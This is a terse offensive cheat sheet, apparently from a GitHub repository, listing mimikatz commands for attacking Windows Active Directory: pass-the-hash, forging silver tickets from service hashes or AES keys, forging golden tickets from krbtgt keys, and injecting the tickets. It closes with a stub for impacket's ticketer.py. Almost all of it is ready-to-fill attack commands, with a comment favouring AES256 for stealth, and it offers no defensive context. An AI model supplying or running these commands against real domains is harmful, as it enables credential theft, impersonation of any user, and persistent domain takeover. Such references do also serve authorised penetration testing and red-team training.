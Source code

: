 ## pass the hash
- `sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash`

## silver_ticket
### to generate the TGS with NTLM
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`

### to generate the TGS with AES 128 key
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`

### to generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`

### Inject TGS with mimikatz
- `mimikatz # kerberos::ptt <ticket_kirbi_file>`

## golden_ticket

### to generate the TGT with NTLM
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>`

### to generate the TGT with AES 128 key
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>`

### to generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>`

### inject TGT with mimikatz
- `mimikatz # kerberos::ptt <ticket_kirbi_file>`

---
# ticketer.py
- service: kerberos
- tactics: credential_access
- suites: impacket
